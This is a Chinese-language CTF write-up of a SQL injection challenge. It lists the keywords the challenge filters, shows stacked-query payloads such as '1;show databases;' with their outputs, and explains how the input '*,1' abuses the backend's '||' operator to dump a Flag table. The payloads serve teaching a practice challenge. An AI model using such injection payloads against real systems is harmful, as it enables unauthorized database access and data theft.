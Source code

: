 输入数字有回显，输入'或abc无回显，输入or，true回显nonono
说明有过滤
具体可以通过关键字字典爆破得知：`prepare|flag|unhex|xml|drop|create|insert|like|regexp|outfile|readfile|where|from|union|update|delete|if|sleep|extractvalue|updatexml|or|and|&|"`
（好像这些被过滤后**报错注入，union联合注入，盲注皆不可行**）
我们要使用的方法是**堆叠注入**
**堆叠注入：将多条SQL语句放在一起，并用分号;隔开。**

输入：查库
```mysql
1;show databases;
```
回显：
```output
Array ( [0] => 1 ) Array ( [0] => ctf ) Array ( [0] => ctftraining ) Array ( [0] => information_schema ) Array ( [0] => mysql ) Array ( [0] => performance_schema ) Array ( [0] => test )
```

输入：查当前所在库
```mysql
1;select database();
```
回显：
```output
Array ( [0] => 1 ) Array ( [0] => ctf )
```

输入：查库中表
```mysql
1;show tables;
```
回显：
```output
Array ( [0] => 1 ) Array ( [0] => Flag )
```

flag应该就在Flag字段中，但是flag和from都被过滤了
**输入字母无回显**，**输入数字有回显**，试试**输入0**，发现**无回显**
可以猜测：**后端代码含有`||`或运算符**
**SQL语句中有一特性：字符串在逻辑或符号`||`的一端表示 0**
猜测后端代码为
```mysql
select %s || 内置一个列名 from Flag; 
```
假设这个列名为flag，则
```mysql
select %s || flag from Flag; 
```
此时我们输入`*,1`，则拼凑为：
```mysql
select *,1 || flag from Flag;
```
等价于：
```mysql
select *,1 from Flag;
```
`select 1 from`的意思其实是建立一个临时列，这个列的所有初始值都被设为1
重点是前面有个`*`，查出了Flag表中的所有内容

为何等价？可以这样理解：
**输入`*，1`后，sql语句就变成了`select * , 1 || flag from Flag`。
其中分为两部分： (1)`select * from Flag`(2)`select 1 || flag from Flag`
`select * from Flag`通过查看表Flag中的所有数据可以得到flag。**

还是不能理解？看个特例：
非预期漏洞的概念：
**若输入`1，1`。那么sql语句就变成了`select 1, 1 || flag from Flag`。
其中由`[1]`和`[1 || flag]`两部分组成，而非 `[1,1] || [flag]`。**
非预期漏洞是**利用数据库对符号判断的不准确形成的漏洞。**

所以我们只需传入`*,任意数字`即可成功查看表Flag中的数据得到flag
![[Pasted image 20250124233902.png]]
